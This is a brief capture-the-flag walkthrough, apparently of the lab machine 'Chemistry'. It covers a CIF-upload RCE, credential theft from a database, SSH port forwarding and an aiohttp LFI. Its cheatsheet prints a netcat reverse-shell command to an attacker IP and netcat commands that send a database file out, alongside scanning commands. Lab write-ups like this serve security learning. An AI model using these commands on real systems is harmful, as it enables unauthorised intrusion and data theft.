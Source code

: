 # Chemistry \[Linux Easy]

## Report

Find a website which accepts CIF file upload, a google search shows a CVE RCE for CIF files using the python library. Get reverse shell&#x20;

Scan the app to find database and retrieve rosa password to get user.txt

Internal scan reveals an http open on 8080 restricted to localhost access, use port forwarding.

Website doesn't have anything promising, curl for headers and find aiohttp server running which has a recent LFI CVE

Fuzz for directories and use it in the PoC script available online.

## Cheatsheet

<pre class="language-bash"><code class="lang-bash">sudo nmap -sC -sV -O 10.10.11.38
threader3000
<strong>busybox nc 10.10.14.42 4445 -e /bin/bash
</strong>nc -lvnp 3333 > database
nc 10.10.14.42 3333 &#x3C; database.db
sqlitebrowser database
netstat -tulpn
netstat -a
ssh -L 9090:localhost:8080 rosa@10.10.11.38 -fN
curl localhost:8080 --head
#Run the script after wfuzz to get directory
</code></pre>

## Proof

Not much to work with on this one so no worries

## Moral

* Try all the payloads from revshells, one might click (/bin/bash instead of sh too)
* Sort the ssh port forwarding lmao cus what was that
* Curl for the headers, finding the backend info is very useful
* Don't forget basic web methodology even after initial foothold, don't crash out
